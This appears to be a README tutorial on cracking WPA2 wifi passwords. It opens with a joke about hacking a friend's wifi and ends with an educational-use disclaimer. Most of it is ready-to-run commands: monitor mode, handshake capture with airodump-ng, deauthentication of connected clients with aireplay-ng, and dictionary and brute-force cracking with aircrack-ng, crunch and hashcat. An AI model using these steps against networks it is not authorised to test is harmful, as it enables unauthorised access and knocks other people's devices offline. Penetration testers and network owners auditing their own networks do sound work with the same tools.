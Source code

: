 ## How to hack your best friends wifi? <br/> Just kidding, gonna teach you how to "hack" WPA2 wifi passwords with aircrack and crunch/ hashcat!

### Installing aircrack-ng

enter that commands to install the requirements:

```shell
sudo apt install aircrack-ng crunch hashcat -y
```

### Setting your interface to monitor mode

killing the processes before enabling monitor mode

```shell
sudo airmon-ng check kill
sudo pkill # numbers which got outputted
```

enabling monitor mode:

```shell
sudo airmon-ng start wlan0
```

### Capturing the WPA2 handshake

change the first question mark with the bssid of your target router and the second question mark with the channel of the target

```shell
sudo airodump-ng wlan0
sudo airodump-ng --bssid ? -c ? --write hash wlan0
```

### Forcing clients to reconnect to the target network

open another window and enter that commands <br/>
change the question mark to the targets bssid and the clients bssid which you are forcing to reconnect <br/>
you also don´t need to use the -c option, it would try to disconnect every client which is connected to the target

```shell
sudo aireplay-ng –0 2 –a ? –c ? wlan0
```

### Cracking the hash file via a dictionary attack (cpu, aircrack-ng)

unzipping a big wordlist (rockyou), kali linux has that file installed in /usr/share/wordlist/rockyou.txt <br/>
if you are using another linux distro which doesn´t have that file saved somewhere which is debian based, add my [repo](https://github.com/phoenixthrush/phoenixthrush.github.io#installation-debian-and-arch-based-distros) and install [rockyou](https://github.com/phoenixthrush/phoenixthrush.github.io#packages)!

steps for kali linux, if not skip that step <br/>
file ist getting stored at /usr/share/wordlist/rockyou.txt

```shell
cd /usr/share/wordlist/
sudo gzip -d rockyou.txt.gz
```

cracking the hash file with the rockyou dictionary

```shell
sudo aircrack-ng hash.cap -w /path/to/the/dictionary
```

### Cracking the hash file via bruteforce (cpu, crunch/ aircrack-ng)

generating a 8-10 long password with the chracters [abcdefgABC123?]

```shell
crunch 8 10 abcdefgABC123? | sudo aircrack-ng -e wifiname -w - /path/to/the/hash/file
```

### Cracking the hash file via a dictionary attack (gpu, hashcat)

converting a cap file from airodump-ng to a hc22000 file for hashcat support using a [cap2hashcat online converter](https://hashcat.net/cap2hashcat)

cracking the hash file with rockyou <br/>
if you are using another linux distro which doesn´t have the rockyou dictionary saved somewhere which is debian based, add my [repo](https://github.com/phoenixthrush/phoenixthrush.github.io#installation-debian-and-arch-based-distros) and install [rockyou](https://github.com/phoenixthrush/phoenixthrush.github.io#packages)!

```shell
hashcat -m 22000 hash.hc22000 rockyou.txt
```

### Cracking the hash file via bruteforce (gpu, hashcat)

```shell
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```

to create a password which contains 8 digits

here are the hashcat masks

```
?l = abcdefghijklmnopqrstuvwxyz
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
?d = 0123456789
?s =  !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~
?a = ?l?u?d?s
?b = 0x00 - 0xff
```

### Thats it!

contact me at [contact@phoenixthrush.com](mailto:contact@phoenixthrush.com) if you have questions and have fun cracking your OWN wifi!

### Disclaimer!

This tutorial only contains scripts for educational purposes! <br/>
Don´t crack someone else’s wifi, only your own wifi network or ask for a permisson first! <br/>
I am not liable for anything that may happen!
